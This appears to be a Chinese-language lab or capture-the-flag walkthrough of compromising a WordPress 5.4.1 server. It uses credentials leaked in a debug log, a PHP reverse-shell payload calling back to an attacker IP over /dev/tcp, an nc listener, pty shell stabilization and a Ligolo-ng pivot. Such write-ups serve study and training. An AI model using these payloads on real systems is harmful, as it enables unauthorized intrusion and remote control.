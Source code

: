 ```markdown
# 🎯 10.10.110.100 - 初始 Web 服务器

## 🧾 基本信息

- 操作系统：Linux
- 主机名：未知
- 服务开放端口：
  - 21/tcp → FTP（匿名登录 ✅）
  - 65000/tcp → HTTP（WordPress 5.4.1）

---

## 🔍 信息收集与枚举

### 🌐 HTTP

- Web 服务运行在 **端口 65000**
- WordPress 安装在子路径 `/wordpress/`
- 后台登录地址：

```

[http://10.10.110.100:65000/wordpress/wp-login.php](http://10.10.110.100:65000/wordpress/wp-login.php)

```

- WordPress 版本：**5.4.1**
- debug log 路径泄露信息：
- 用户名：`james`
- 密码：`Toyota` ✅（首字母大写）

- 成功登录后台后可访问主题编辑器：

```

Appearance > Theme Editor > 404.php

````

---


## 🧨 攻击路径

1. 使用 `james:Toyota` 登录 WP 后台

2. 打开 `Twenty Twenty` 主题 → `404.php`

3. 插入反弹 shell payload：

   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"); ?>
   ```

4. 在本地监听：

   ```bash
   nc -lvnp 4444
   ```

5. 访问触发反弹（可任意 404 页面）：

   ```
   http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/404.php
   ```

6. 成功反弹 shell，当前用户为 `www-data`

---

## 🛠️ Shell 稳定化

在拿到 shell 后执行以下命令，修复终端问题：

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## 🔌 Ligolo-ng 内网代理初始化

```bash
./proxy -laddr 0.0.0.0:11601 -selfcert
./agent -connect 10.10.14.4:11601 -ignore-cert

---
